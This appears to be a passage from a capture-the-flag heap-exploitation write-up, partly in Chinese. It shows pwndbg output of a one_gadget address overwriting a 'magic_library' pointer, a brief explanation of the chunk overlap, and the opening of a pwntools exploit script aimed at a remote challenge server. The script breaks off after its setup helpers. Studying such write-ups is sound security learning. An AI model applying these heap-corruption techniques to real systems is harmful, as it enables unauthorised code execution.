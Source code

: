 ```

heap list        = [*0, 1, 2]
free list (0x20) = []

magic_library = one_gadget
pwndbg> x/20gx 0x602110
0x602110 <magic_library>:       0x00007f2cdfa4f29e      0x0000000000000000

??? done
-----------------------------------------------------------------------------
```

为什么我改 4 会 变到 magic_library = one_gadget?
因为 malloc 0x8 -> 4 from magic_library 
原本 4 的位置 被 2 改成 magic_library 了
# 4.0 FLAG 
local not in remote
# 5.0 FINAL SCRIPT 
```python
# -*- coding: utf-8 -*-
# -*- coding: utf-8 -*-
from pwn import*
context.log_level='debug'
# context.arch='amd64'
context.os = "linux"

pc = "./task_patched"

libc  = ELF('./libc.so.6', checksec=False)
ld = ELF("ld-2.27.so")
exe = context.binary = ELF(pc)



scripts = """
set resolve-heap-via-heuristic force
"""
 
if __name__ == '__main__':
    local = sys.argv[1]
    if local == 'l':
        r= process(pc)
        elf = ELF(pc)
    else:
        r=remote("34.45.81.67",16006)
        elf = ELF(pc)
 

# change -l0 to -l1 for more gadgets
def one_gadget(filename, base_addr=0):
  return [(int(i)+base_addr) for i in subprocess.check_output(['one_gadget', '--raw', '-l1', filename]).decode().split(' ')]

# shortcuts
def logbase(): log.info("libc base = %#x" % libc.address)
def logleak(name, val):  log.info(name+" = %#x" % val)

s = lambda *a, **k: r.send(*a, **k)
sa = lambda s,n : r.sendafter(s,n)
sla = lambda s,n : r.sendlineafter(s,n)
```